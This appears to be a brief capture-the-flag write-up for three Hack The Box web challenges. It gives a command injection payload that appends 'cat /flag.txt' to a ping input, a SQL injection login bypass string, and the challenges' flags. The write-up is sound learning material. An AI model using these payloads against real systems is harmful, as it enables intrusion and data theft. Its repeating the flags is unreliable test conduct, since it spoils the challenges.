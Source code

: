 # WEB

## Trapped Source

View page source -> correctPin: "8291"
> HTB{V13w_50urc3_c4n_b3_u53ful!!!}

## Gunhead

Simple command injection - enter `/ping 1 & cat /flag.txt` and get the flag
![Gunhead - command injection](Gunhead.png)

> HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}

## Drobots

Since my Web knowledge is very limited read about [SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
and then entered these credentials on the login screen:
`admin`
`" or ""="`

![Drobots - SQL injection](Drobots.png)

> HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}
